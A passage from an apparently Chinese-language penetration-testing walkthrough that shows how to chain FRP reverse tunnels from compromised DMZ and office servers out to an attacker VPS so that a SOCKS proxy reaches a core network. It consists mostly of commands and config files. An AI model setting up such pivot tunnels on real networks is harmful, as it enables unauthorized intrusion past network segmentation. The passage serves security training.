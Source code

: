 此时已获得DMZ区的web服务器和FTP服务器权限，以及办公区的文件服务器权限，将web服务器和FTP服务器以及文件服务器同时作为跳板，打通到达核心区的网络

vps -> web服务器 -> FTP服务器 -> 办公区文件服务器 -> 核心区网络

1. 在VPS上启动FRP服务端shell

```
./frps -c ./frps.ini
```

frps.ini内容如下：

```
[common] 
bind_addr = 0.0.0.0 
bind_port = 7000
```

- 在web服务器上启动FRP客户端，同时将本地的10808端口转发到VPS的1080端口shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

- 这将本地的10808端口转发到VPS的1080端口

```
[common] 
server_addr = 100.100.100.10 
server_port = 7000 
[socks5_forward] 
type = tcp 
local_ip = 10.10.10.20 
local_port = 10808 
remote_port = 1080
```

- 在web服务器上启动一个FRP服务端shell

```
./frps.exe -c ./frps.ini
```

frps.ini内容如下：

```
[common] 
bind_addr = 10.10.10.20 
bind_port = 7000
```

- 在FTP服务器上启动FRP客户端，连接web服务器的FRP服务端，同时将FTP服务端的10809端口转发到Web服务器的10808端口shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] 
server_addr = 10.10.10.20 
server_port = 7000 
[socks5_forward] 
type = tcp 
local_ip = 192.168.30.10 
local_port = 10809 
remote_port = 10808
```
